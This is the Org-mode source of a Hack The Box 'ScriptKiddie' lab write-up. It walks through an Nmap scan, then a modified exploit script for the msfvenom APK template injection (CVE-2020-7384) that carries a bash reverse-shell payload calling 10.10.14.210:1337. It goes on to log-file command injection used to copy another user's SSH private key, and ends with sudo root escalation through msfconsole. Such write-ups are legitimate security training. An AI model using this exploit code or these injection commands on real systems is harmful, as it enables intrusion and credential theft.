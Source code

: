 #+TITLE: Script Kiddie
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: scriptkiddie

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

As usual, we start with an Nmap scan:

#+BEGIN_SRC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET
$ nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.129.74.36
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET
Nmap scan report for 10.129.74.36
Host is up (0.046s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.20 seconds
#+END_SRC

We can clearly see that there is an HTTP server running in port =5000=.
Going to the website (=10.129.75.138:5000=), we see this page:

[[./images/img1.jpg]]

Messing around with the website, we can scan the top 100 ports of a specific IP
address, we can also generate =msfvenom= binaries and we can search exploits.

There are some timesinks here, one of them being command injection checking on
all three available fields. I did waste many hours because of it.

But let us not forget about the commands that are running server-side.
From the website, we know that the server is running =nmap=, =msfvenom= and
=searchsploit=.

* User

Using the =searchsploit= utility from the website, we can search =nmap= or
=msfvenom= exploits. =Nmap= has a couple exploits, but =msfvenom= has one that
is very recent, January 2021: https://www.exploit-db.com/exploits/49491.

It seems that we can use an Android APK template to make =msfvenom= execute
arbitrary code when it is generating the binary.

We’ll use the above python script, but in our case, we want a payload for a
reverse shell: =/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"=.
We just replace it in the script and run it. But it will error out, because
there seems to be a problem when using =keytool= and having =+= characters in
=dname=.
Script customization is needed. In this case, after getting the result base64,
we’ll convert the string to an hex string and we also change the dname variable
so it converts from hex string to base64 and then decode the base64 and then
execute the resulting string.

This is the script after the changes:

#+BEGIN_SRC python :eval no
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
#payload = 'echo "Code execution as $(id)" > /tmp/win'
payload = '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
payload_hex = "".join("{:02x}".format(ord(c)) for c in payload_b64)

#dname = f"CN='|echo {payload_b64} | base64 -d | sh #"
dname = f"CN='|echo {payload_hex} | xxd -r -p | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
#+END_SRC

All we have to do now is run the script and upload the result APK to the
website:

[[./images/img2.jpg]]

When we get the reverse shell, we can see that there is a =id_rsa= file in the
=.ssh= directory, we get the contents of the file and we use it to ssh into the
user =kid=:

[[./images/img3.jpg]]

In =kid= home directory, we can get the =user.txt= flag.

* Root

There are some rabbit holes we can get into. We can rapidly see that there is an
odd file (=/home/kid/logs/hackers=).
The file is referenced in the websites’ =app.py= file:

#+BEGIN_SRC python
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
#+END_SRC

So, if we use special characters in the prompt, it will write current date and
our IP to =/home/kid/logs/hackers=. For the sake of brevity, we are
going to upload =pspy64= to the machine and run it. Now, in the website, if we
use the =searchsploit= textfield with a special character (e.g.: =test;=), we
can clearly see what commands are executed on the server:

[[./images/img4.jpg]]

Everytime the above happens, it seems =/home/pwn/scanlosers.sh= is executed.
We can peek into that file:

#+BEGIN_SRC bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
#+END_SRC

This file gets =/home/kid/logs/hackers=, does a cut by space character, gets
everything from the third free onwards and executes nmap. After that, it cleans
the log file.
From here, we can inject commands into =/home/kid/logs/hackers= for user =pwn=
to execute! But we have to be smart about it. We can continue using =pspy64= to
check what is executed and to do some trial and error. My initial idea was to
get the =id_rsa= from user =pwn=. All I had to do was run this command:

#+begin_src
$ echo ";a; a; ;cat .ssh/id_rsa > test;" > logs/hackers
#+end_src

I did insert enough whitespaces because of =cut -d’ ‘ -f3-= part. Then the
command I wanted to execute (print =id_rsa= and redirect output to =test= file
and then redirect everything to =/home/kid/logs/hackers=).

[[./images/img5.jpg]]

We get the result and save a new =id_rsa= in our computer and =ssh= into =pwn=.

[[./images/img6.jpg]]

Something that should be done right away is check if =pwn= user can run some
commands as superuser!

#+begin_src
$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
#+end_src

It is possible to execute =msfconsole= as superuser. We can also run
normal bash commands through msfconsole. Therefore, we just execute =bash= and
we get a shell session with root permissions.

[[./images/img7.jpg]]

Navigation to =root= home directory is required and then we have =root.txt= to
get the root flag.

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
<p class="footer_right">08-02-2021</p>
<p><a class="footer" href="/index.html">Homepage</a></p>
<p><a class="footer" href="/writeups/htb/index.html">Back</a></p>
<div style="clear: both;"></div>
</footer>
#+END_EXPORT
